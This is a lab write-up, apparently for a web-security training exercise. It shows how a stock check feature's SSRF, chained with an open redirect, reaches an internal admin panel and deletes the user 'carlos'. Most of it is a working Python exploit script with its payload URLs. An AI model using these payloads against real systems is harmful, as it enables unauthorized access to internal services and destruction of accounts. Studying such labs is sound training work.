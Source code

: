 Vulnerable feature - stock check functionality

Goal - change the stock check URL to access the admin interface at http://192.168.0.12:8080/admin and delete the user carlos.

Analysis:

admin page: product/nextProduct%3fcurrentProductId%3d1%26path%3dhttp%3a//192.168.0.12%3a8080/admin

delete user: 
/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin/delete?username=carlos

```python
import requests
import sys
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def delete_user(url):
    delete_user_ssrf_payload = '/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin/delete?username=carlos'
    check_stock_path = '/product/stock'
    params = {'stockApi': delete_user_ssrf_payload}
    r = requests.post(url + check_stock_path, data=params, verify=False, proxies=proxies)

    # Check if the user is deleted
    admin_page_ssrf_payload = '/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin/'
    params2 = {'stockApi': admin_page_ssrf_payload}
    r = requests.post(url + check_stock_path, data=params2, verify=False, proxies=proxies)
    if 'Carlos' not in r.text:
        print("(+) Successfully deleted Carlos user!")
    else:
        print("(-) Exploit was unsuccessful")

def main():
    if len(sys.argv) !=2:
        print("(+) Usage: %s <url" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    url = sys.argv[1]
    print("(+) Deleting Carlos user...")
    delete_user(url)

if __name__ == "__main__":
    main()
```
